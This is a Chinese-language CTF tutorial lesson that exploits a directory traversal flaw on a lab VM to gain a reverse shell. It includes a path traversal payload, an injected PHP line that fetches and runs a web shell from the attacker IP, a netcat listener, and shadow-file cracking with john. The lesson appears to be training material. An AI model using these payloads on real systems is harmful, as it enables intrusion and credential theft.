





# CTF入门课程：P18：目录遍历漏洞利用实战 🚩

在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将通过利用此漏洞，最终获取目标主机的root权限并取得flag值。

## 目录遍历漏洞简介

上一节我们介绍了课程目标，本节中我们来了解一下目录遍历漏洞本身。

目录遍历漏洞，也称为路径遍历攻击。其核心目的是访问存储在Web根目录之外的文件和目录。攻击者通过操纵带有“点-斜线”（`../`）序列或其变体的文件路径，或使用绝对文件路径来引用文件变量，从而能够访问文件系统上的任意文件和目录。

**核心概念**：攻击者尝试跳出Web应用设定的目录限制，访问系统文件。
**典型Payload**：`../../../etc/passwd`

这包括应用程序的源代码、配置文件以及关键的系统文件。但需要注意的是，系统层面的访问控制（例如在Windows操作系统上对文件设置的锁定或权限）会限制对文件的访问。如果文件权限设置为不可读，则无法通过目录遍历漏洞查看其内容。

目录遍历漏洞也被称为点斜线目录遍历、目录爬升和回溯攻击。

## 实验环境搭建 🖥️

在深入利用漏洞之前，我们需要搭建实验环境。



攻击机我们使用Kali Linux，其IP地址为 `192.168.1.106`。靶机使用一个Linux系统，其IP地址为 `192.168.1.104`。我们所有的操作都将围绕一个明确的目标展开：获取靶机的root权限并得到flag值。

## 信息收集与探测 🔍



拿到靶机IP后，我们首先需要对目标进行信息探测，以了解其开放的服务和潜在的攻击面。

以下是信息探测的步骤：

1.  **扫描开放服务及版本**：使用Nmap扫描靶机开放的服务及其版本信息。
    ```bash
    nmap -sV 192.168.1.104
    ```
    此命令会发送数据包探测目标，并分析返回的响应，最终输出开放的服务列表。

2.  **全面信息探测**：使用Nmap的“全面扫描”模式，获取更详细的信息，包括操作系统类型、MAC地址等。
    ```bash
    nmap -T4 -A -v 192.168.1.104
    ```
    参数 `-T4` 表示快速扫描，`-A` 启用操作系统检测、版本检测等所有功能。

3.  **Web服务探测**：如果发现目标开放了HTTP服务（如80端口），可以使用专门工具进行深入探测。
    *   使用 `nikto` 扫描Web应用常见漏洞和敏感信息：
        ```bash
        nikto -h http://192.168.1.104
        ```
    *   使用 `dirb` 进行目录枚举，寻找隐藏的目录或文件：
        ```bash
        dirb http://192.168.1.104
        ```
        `dirb` 会使用内置字典对目标URL进行暴力猜解。

探测完成后，我们需要仔细分析结果。例如，`nikto` 可能显示服务器类型（Apache 2.2.22）、允许的HTTP方法（GET, HEAD, POST）等。`dirb` 可能会发现诸如 `/phpmyadmin/`、`/test/`、`/admin/` 等敏感目录。

## 漏洞发现与验证 🕵️♂️

在信息收集的基础上，我们可以进行更深入的漏洞挖掘。

1.  **手动访问与观察**：直接使用浏览器访问靶机IP（`http://192.168.1.104`），观察网站功能。结合 `dirb` 扫描结果，尝试访问发现的敏感目录，如 `/dbadmin/`，可能会发现类似数据库管理后台的登录页面。
2.  **使用自动化扫描器**：为了更高效地发现漏洞，可以使用自动化Web漏洞扫描器，如 OWASP ZAP。
    *   启动ZAP后，在攻击界面输入目标URL（`http://192.168.1.104`）并开始攻击。
    *   ZAP会自动爬取网站页面并进行主动漏洞扫描。
    *   扫描结束后，在“警报”选项卡中可以查看发现的漏洞。**红色**图标代表高危漏洞，**黄色**代表中危。

在本案例中，扫描器报告了一个**目录遍历漏洞**。详细信息显示，访问某个特定URL（例如 `http://192.168.1.104/vulnerable.php?file=../../../etc/passwd`）可以读取到系统的 `/etc/passwd` 文件内容。在浏览器中访问该URL验证成功，确认漏洞存在。

我们可以尝试修改Payload，例如将 `passwd` 改为 `shadow` 来尝试读取 `/etc/shadow` 文件（存储用户密码哈希），但可能因权限不足而失败。

## 漏洞利用：获取Shell 🐚

仅仅读取文件还不够，我们的目标是获得系统的控制权（Shell）。以下是利用目录遍历漏洞获取Shell的思路：

1.  **上传Web Shell**：找到一个可以将文件写入服务器的地方（如文件上传点、数据库写入点），上传一个用PHP编写的Web Shell。
2.  **触发Web Shell**：通过目录遍历漏洞，访问我们上传的Web Shell文件。
3.  **建立反向连接**：Web Shell代码中包含连接回我们攻击机的指令，从而在攻击机上获得一个反向Shell。

**具体操作步骤**：

1.  **寻找上传点**：之前发现的 `/dbadmin/testDB.php` 是一个数据库管理页面。尝试使用弱口令（如用户名 `admin`，密码 `admin` 或 `123456`）登录。
2.  **准备Web Shell**：在Kali中，常用的Web Shell位于 `/usr/share/webshells/`。我们选择一个PHP反向Shell（如 `php-reverse-shell.php`），复制到桌面并编辑，将其中的 `$ip` 变量改为攻击机IP（`192.168.1.106`），`$port` 改为监听端口（如 `4444`）。
    ```php
    // php-reverse-shell.php 部分代码
    $ip = ‘192.168.1.106‘;
    $port = 4444;
    ```
3.  **通过数据库写入Shell**：
    *   在数据库管理页面中，创建一个名字以 `.php` 结尾的数据库（例如 `shell.php`）。这样，数据库文件可能被Web服务器当作PHP脚本执行。
    *   在该数据库中创建数据表，并在某个字段（TEXT类型）中插入PHP代码，该代码的功能是从攻击机下载完整的Web Shell并执行。
        ```sql
        -- 示例：在某个字段中写入以下指令
        <?php system(‘cd /tmp; wget http://192.168.1.106:8000/shell.php; chmod +x shell.php; php shell.php‘); ?>
        ```
4.  **搭建下载服务器**：在Kali上，使用Python快速启动一个HTTP服务器，提供Web Shell文件下载。
    ```bash
    cd /桌面
    python -m SimpleHTTPServer 8000
    ```
5.  **启动监听**：在Kali上另一个终端，使用Netcat监听指定端口，等待反向连接。
    ```bash
    nc -nlvp 4444
    ```
6.  **触发漏洞**：通过目录遍历漏洞，访问数据库文件对应的路径（例如 `http://192.168.1.104/dbadmin/../../usr/share/db/shell.php` 或类似路径）。服务器会执行该“数据库”文件中的PHP代码。
7.  **获得Shell**：PHP代码被执行，下载并运行了我们的反向Shell。此时，Netcat监听端会接收到一个来自靶机的连接，我们获得了一个基本的Shell（可能是 `www-data` 用户权限）。

## 权限提升 ⬆️

目前获得的Shell权限较低（通常是Web服务用户，如 `www-data`）。我们需要将其提升为 `root` 权限。

1.  **改善Shell**：首先，将简单的Shell升级为功能更全的TTY Shell，方便后续操作。
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)‘
    ```
2.  **信息收集**：查看系统信息、sudo权限、SUID文件、计划任务等，寻找提权突破口。
    *   检查当前用户能否以root身份运行任何命令：`sudo -l`
    *   查找具有SUID权限的可执行文件：`find / -perm -u=s -type f 2>/dev/null`
    *   查看系统计划任务：`cat /etc/crontab`
3.  **利用目录遍历获取敏感信息辅助提权**：我们可以再次利用目录遍历读取 `/etc/passwd` 和 `/etc/shadow` 文件。将它们保存到本地，使用 `unshadow` 工具组合，然后用 `john` 或 `hashcat` 进行密码破解。如果破解出某个用户的密码（甚至是root），就可以尝试SSH登录或 `su` 切换用户。
    ```bash
    # 在攻击机上操作
    unshadow passwd.txt shadow.txt > hashes.txt
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```





本节课中，我们主要完成了通过目录遍历漏洞上传Web Shell并获取初始立足点的过程。权限提升的具体方法将在后续课程中详细展开。

## 总结 📝

本节课我们一起学习了目录遍历漏洞的完整利用链：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标，发现Web服务及敏感路径。
2.  **漏洞发现**：通过自动化扫描器（OWASP ZAP）或手动测试，验证目录遍历漏洞的存在。
3.  **漏洞利用**：
    *   结合弱口令进入后台（如数据库管理）。
    *   利用后台功能（如创建特殊名称的数据库）写入Web Shell代码。
    *   通过目录遍历访问该文件，触发Web Shell执行。
    *   在攻击机设置监听，接收反向Shell，获得初始访问权限。
4.  **扩展利用**：目录遍历漏洞本身也可直接用于读取系统敏感文件（如 `/etc/passwd`、`/etc/shadow`），为密码破解和权限提升提供信息。



通过这一过程，我们实现了从外部探测到获取服务器Shell的跨越。掌握这些基础步骤，是CTF Web挑战和实际渗透测试中的重要技能。